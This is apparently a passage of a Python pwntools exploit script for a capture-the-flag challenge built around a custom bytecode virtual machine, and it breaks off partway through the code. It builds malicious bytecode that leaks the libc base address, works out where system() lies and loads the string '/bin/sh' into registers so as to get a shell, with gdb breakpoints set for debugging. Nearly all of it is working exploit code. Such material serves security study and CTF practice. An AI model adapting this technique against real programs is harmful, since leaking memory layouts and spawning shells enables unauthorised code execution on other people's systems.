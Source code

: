 ```py
        if args.GDB:
            return gdb.debug(args=args_, env=env, gdbscript=gdbscript)
        return process(args_, env=env, *a, **kw)


env = {}
gdbscript = """
source ~/.gdbinit-gef-bata24.py
b *exec_vm
# b *exec_vm+0x71
b *vm_rearrange_vtable+87
tb *vm_rearrange_regs
c  # exec_vm
memory watch $rdi+0x138 0x100 qword
memory watch $rdi+0x938 0x100 dword
c
# b *exec_vm+0x71
"""

# $ pwn libcdb file ./libc.so.6
__libc_start_main_ret = 0x24083

bytecode = b""

# jump to insn @ 0x400 to leak libc
bytecode += VM_SET_R0(0x10, 0x400)

# writing insn @ 0x83+0x4 = 0x87
bytecode = bytecode.ljust((__libc_start_main_ret & 0xFF) + 4, b"\x00")
for i in range(1, 6):
    bytecode += VM_AND_R_R_IMM(i, i, 0xFF)

# combine everything into one register r10
bytecode += VM_XOR_R_R_R(0x10, 0x10, 0x10)
for i in range(1, 6):
    bytecode += VM_SHL_R_R_IMM(0x10, 0x10, 0x8)
    bytecode += VM_ADD_R_R_R(0x10, 0x10, 6 - i)
bytecode += VM_SHL_R_R_IMM(0x10, 0x10, 0x8)

# set __libc_start_main_ret offset to r11
bytecode += VM_SET_R_16(0x11, 0x4000)
bytecode += VM_SET_R_32(0x11, 0x2)
bytecode += VM_SUB_R_R_R(0x10, 0x10, 0x11)
# now r10 = libc base address

system = libc.sym["system"]

bytecode += VM_XOR_R_R_R(0x15, 0x15, 0x15)
# set system function offset to r15
bytecode += VM_SET_R_16(0x15, system & 0xFFFF)
bytecode += VM_SET_R_32(0x15, (system >> 16) & 0xFFFF)
bytecode += VM_XOR_R_R_R(0x13, 0x13, 0x13)
bytecode += VM_ADD_R_R_R(0x13, 0x10, 0x15)

# set /bin/sh string to r14
bytecode += VM_XOR_R_R_R(0x14, 0x14, 0x14)
bytecode += VM_SET_R_16(0x14, u16(b"/b"))
bytecode += VM_SET_R_32(0x14, u16(b"in"))
bytecode += VM_SET_R_48(0x14, u16(b"/s"))
bytecode += VM_SET_R_64(0x14, u16(b"h\x00"))

# write 0x6f @ bytecode[0x4000]
# write 0x6e @ bytecode[0x4001]
```